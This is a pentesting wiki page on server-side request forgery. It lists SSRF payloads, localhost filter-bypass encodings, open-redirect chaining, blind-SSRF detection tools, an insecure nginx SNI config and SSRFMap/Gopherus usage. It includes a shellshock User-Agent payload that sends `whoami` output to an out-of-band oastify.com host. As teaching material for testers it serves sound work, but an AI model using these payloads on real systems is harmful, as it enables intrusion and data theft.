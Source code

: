 # SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

{% hint style="info" %}
SSRF is to [file inclusion](../../web/inputs/file-inclusion/) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.
{% endhint %}

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.&#x20;

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

{% tabs %}
{% tab title="Blacklist input filters" %}
Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :&#x20;

<pre><code>http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
<strong>http://2130706433 # Decimal version of localhost
</strong>http://0x7f000001/ # Hexadecimal version of localhost
</code></pre>

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

{% hint style="info" %}
The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)
{% endhint %}
{% endtab %}

{% tab title="Whitelist input filters" %}
## Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :&#x20;

* Using the `@` character in a URL like this :&#x20;
  * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :&#x20;
  * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :&#x20;
  * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.



## [ORED (Open Redirect)](ssrf-server-side-request-forgery.md#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](ssrf-server-side-request-forgery.md#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

<figure><img src="../../.gitbook/assets/SSRF.png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

### Blind SSRF vulnerabilities <a href="#blind-ssrf-vulnerabilities" id="blind-ssrf-vulnerabilities"></a>

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.&#x20;

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

{% hint style="info" %}
An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.
{% endhint %}

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to **exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field**. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.

<pre class="language-bash"><code class="lang-bash"># using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles
<strong>
</strong><strong># using Gopherus
</strong>gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
</code></pre>

## References

{% embed url="https://portswigger.net/web-security/ssrf" %}

{% embed url="https://portswigger.net/web-security/ssrf/blind" %}

{% embed url="https://owasp.org/www-community/attacks/Server_Side_Request_Forgery" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" %}
